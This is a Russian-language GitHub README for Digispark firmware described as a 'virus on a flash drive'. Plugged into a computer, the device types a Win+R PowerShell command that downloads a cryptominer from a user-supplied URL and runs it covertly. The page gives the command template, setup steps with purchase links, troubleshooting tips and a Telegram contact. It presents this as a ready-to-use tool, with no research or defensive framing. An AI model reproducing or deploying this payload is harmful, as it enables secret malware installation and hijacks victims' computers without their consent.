 # miner-digispark | Вирус на флешке
_Прошивка для digispark + скрытый майнер_
## Идея
При подключении "флешки" к компютерю будет устанавливаться и запускаться скрытый майнер
## Реализация
- Покупаем  [Digispark](https://alexgyver.ru/lessons/digispark/) 

> [Купить на Ozon](https://ozon.ru/t/Dr8D1GD) | [Купить на AliExpress](https://aliexpress.ru/item/2040316211.html?sku_id=58307777832&spm=a2g2x.productlist.search_results.1.5d115ed1ofwRd7) 

- Устанавливаем [прошивку](firmware.ino) и открываем в [Arduino IDE](https://www.arduino.cc/en/software)
- Создаем майнер (Советую на виртуалке) 
> Видео-инструкция -- https://youtu.be/V3U5QreydyM?si=CV2yRZ7MG-l6zGF8
- Загружаем майнер на github/обменник/сервер (нужен полный путь до файла https://... exe)
- Редактируем прошивку в Arduino IDE под себя
> TrinketKeyboard.print("powershell -c \"Invoke-WebRequest -Uri 'ПРЯМАЯ ССЫЛКА НА ФАЙЛ https://...exe' -OutFile 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'; Start-Process 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'\"");

- Загружаем прошивку [(Инструкция)](https://github.com/Sudox00/miner-digispark/blob/main/manual-firmware.md)
- Готово! 
## Вопрос - Ответ
### Как работает?
- После подключения Digispark к USB нажимается WIN+R, а далее вводится подготовленная команда которая будет устанавливать и запускать майнер.
### Работает, но майнер не загружается
- Возможно нету доступа к папке. Попробуйте сменить расположение. Если не помогло, то убедитесь в корректности загрузочной ссылки, должна быть укаазана **прямая** ссылка до файла (Пример: https: //file.exemple/my_miner.exe) 

## Контакты для связи
- [TELEGRAM](https://t.me/soketpy)

 
